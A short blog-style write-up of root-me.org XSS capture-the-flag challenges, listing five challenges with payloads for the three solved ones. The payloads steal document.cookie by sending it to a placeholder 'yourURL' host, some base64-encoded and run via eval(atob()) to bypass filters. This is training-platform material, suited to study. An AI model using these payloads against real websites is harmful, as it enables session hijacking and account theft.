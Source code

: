 ```yaml
---
title: "[root-me.org] XSS CHALLENGE"
date: 2018-12-04T09:30:14+07:00
draft: false
slug: ROOTME-XSS
tags : [XSS,rootme,writeup]
---
```

---
# LIST OF CHALLGENGE
|ID| Challgenge  | Done  |
|------------| ------------ | ------------ |
|**1**|[**XSS - Stored 1**](#1)  |  ✅ |
|**2**|[**XSS - Stored 2**](#2) | ✅  |
|**3**|[**XSS - Reflected**](#3)|✅ |
|**4**|[**XSS - Stored - filter bypass**](#4)|❌|
|**5**|[**XSS - DOM Based**](#5)|❌|
---
<a name="1"></a>
# XSS - Stored 1
- **Link :** [http://challenge01.root-me.org/web-client/ch18/](http://challenge01.root-me.org/web-client/ch18/)
- **Vulnerablity :** Input Message
- **Payload :** `<img src=0 onerror=document.location='yourURL/'+document.cookie>`
- **Note :** Wait a minutessssss....

---
<a name="2"></a>
# XSS - Stored 2
- **Link :** [http://challenge01.root-me.org/web-client/ch19/](http://challenge01.root-me.org/web-client/ch19/)
- **Vulnerablity :**🍪 Cookie
- **yourBase64code :** `document.write("<img src='yourURL?c="+ document.cookie +"' />")`
- **Payload :** `<script>eval(atob('yourBase64code'))</script>`
- **Note :** Some charaters were sanitized

---
<a name="3"></a>
# XSS - Reflected
- **Link :** [http://challenge01.root-me.org/web-client/ch26/](http://challenge01.root-me.org/web-client/ch26/)
- **Vulnerablity :** `http://challenge01.root-me.org/web-client/ch26/?p=[payload]`
- **Thinking :** hmmm, a tags --> HTML Event Attributes 
- **base64code:**`(new Image()).src="yourURL/?se=".concat(document.cookie)`
- **Because in chall fillter `+,<,>,...` ,so using eval(atob(base64Code)):**
```
' onmouseover='eval(atob("base64code"))
```

---
<a name="4"></a>
# XSS - Stored - filter bypass
- **Link :** [http://challenge01.root-me.org/web-client/ch21/](http://challenge01.root-me.org/web-client/ch21/)
- **Vulnerablity :**
- **Payload :**
- **Note :**

---
<a name="5"></a>
# XSS - DOM Based
- **Link :**[http://challenge01.root-me.org/web-client/ch24/](http://challenge01.root-me.org/web-client/ch24/)
- **Vulnerablity :**
- **Payload :**
- **Note :**
